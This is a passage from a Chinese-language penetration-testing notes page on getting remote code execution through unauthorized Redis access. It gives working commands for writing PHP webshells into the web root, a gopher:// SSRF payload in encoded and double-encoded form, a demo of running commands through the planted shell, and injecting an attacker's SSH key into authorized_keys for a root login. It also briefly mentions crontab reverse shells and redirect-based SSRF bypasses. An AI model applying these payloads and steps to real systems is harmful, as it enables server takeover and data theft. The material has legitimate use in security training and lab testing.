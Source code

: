### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

利用SSRF漏洞使用gopher协议实现，利用这个工具：
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher


修改`redis.cmd`文件中的命令，
```
flushdb
config set dir /var/html
config set dbfilename rshell2.php
set 1 '<?php phpinfo();?>'
save
quit
```
然后执行：
```
$ python2 redis-over-gopher.py
gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%66%6c%75%73%68%64%62%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%38%0d%0a%2f%76%61%72%2f%77%77%77%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%30%0d%0a%72%73%68%65%6c%6c%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%0d%0a%31%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a%2a%31%0d%0a%24%34%0d%0a%71%75%69%74%0d%0a
```
得到gopher协议的payload。
然后需要对这个payload再进行一次urlencode：
```
gopher://127.0.0.1:6379/_%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%37%25%30%64%25%30%61%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%36%34%25%36%32%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%34%25%36%39%25%37%32%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%32%61%25%33%33%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%30%64%25%30%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%31%25%33%38%25%30%64%25%30%61%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%37%30%25%36%38%25%37%30%25%36%39%25%36%65%25%36%36%25%36%66%25%32%38%25%32%39%25%33%62%25%33%66%25%33%65%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%31%25%37%35%25%36%39%25%37%34%25%30%64%25%30%61
```


#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### 写入攻击者公钥实现rce
先生成公私钥对：
```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/77/.ssh/id_rsa): /home/77/.ssh/redis_id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/77/.ssh/redis_id_rsa.
Your public key has been saved in /home/77/.ssh/redis_id_rsa.pub.
The key fingerprint is:
SHA256:ostXG7ywBhLm9vwOeJYn56d6W8mEJBnzFyQXGYYXCN8 77@ubuntu130
The key's randomart image is:
+---[RSA 2048]----+
|    +..+O=       |
|     *o=o.       |
|    o +.E        |
|  o  o o         |
| o .  o.S        |
|  +..o.++.       |
| ..+B.o+++       |
|   +oB=.+        |
|    +B*+         |
+----[SHA256]-----+

$ ll /home/77/.ssh/
total 28K
drwx------  2 77 77 4.0K Jan 11 00:06 ./
-rw-------  1 77 77 1.8K Jan 11 00:06 redis_id_rsa
-rw-r--r--  1 77 77  394 Jan 11 00:06 redis_id_rsa.pub
```

然后将公钥写到authorized_key文件里，注意如果直接写入，或者前后加空格写入，是不能起效果的。需要将公钥写入到文件，然后在文件前后加上换行符。
```
# (echo -e "\n\n\n\n"; cat redis_id_rsa.pub; echo -e "\n\n\n\n") > test.pub
root@ubuntu:~/.ssh# cat test.pub |redis-cli -x set 344444
OK
```
再连接redis确认这个值是否写入了换行符：
```
$ redis-cli
127.0.0.1:6379> get 344444
"\n\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChQBXUegXtU6HK7F9MKuWDPgKNt8Y2h2FNtg14x5qeX9mRrlurytc4dNPvmpuuNZY0yDBi2QAK4Py7bfBbRWLvcFWALoRcXfPobQzRk3beWzWifVZm9iibahqOGgmfKN1DJ5/KTvEHgtGmWOLAjr2ddy5HUnwXSjb3KBgJqdsvt+eQFWHZLDSFem5oU1hni+a/5tVFhciif5AFCpq8e1F+4RrqIGtfOj4IrW3PrqCWJUI60IUgL4MjYqBIf7sctMgGO6Ezlg86Eo8bPdpUh3ygooB6FOJaWqEiB9Kd1gEUIgaj5C/5Dt3McwTzUliJ8DhZ7dw5kUt1mC9hd3oz+AzR 77@ubuntu130\n\n\n\n\n"
127.0.0.1:6379> save
OK
```
从攻击者机器向redis所在的ssh服务发起连接：
```
$ ssh root@192.168.85.129 -i ~/.ssh/redis_id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release '20.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

You have new mail.
Last login: Mon Jan 11 00:04:44 2021 from 192.168.85.130
root@ubuntu:~#
```


### 通过计划任务实现RCE
//TODO
> 测试了centos7和ubuntu，默认情况下redis写入计划任务反弹shell，在centos下是可以的。
由于redis写入文件会写入脏数据，ubuntu计划任务不允许有脏数据，所以ubuntu没办法通过redis写入计划任务进行操作。

参考： 
- [redis数据库在渗透中的利用](https://xz.aliyun.com/t/8018#toc-8)


### 302跳转

- 绕过IP白名单限制，
- 跳转到`http://brutelogic.com.br/poc.svg`等，转换成反射型XSS。
- 限定协议时，跳转到攻击者控制的主机，然后location：其他协议。

### 其他方式
//TODO
- redis主从复制
- 加载module
- 写入/etc/passwd 实现ssh登录

### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
- [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)
- [ssrf与gopher与redis](https://www.cnblogs.com/sijidou/p/13681845.html)
- [通过一道审计题了解SSRF](https://www.smi1e.top/%E9%80%9A%E8%BF%87%E4%B8%80%E9%81%93%E5%AE%A1%E8%AE%A1%E9%A2%98%E4%BA%86%E8%A7%A3ssrf/)
- [不请自来 | Redis 未授权访问漏洞深度利用](https://www.freebuf.com/vuls/148758.html)
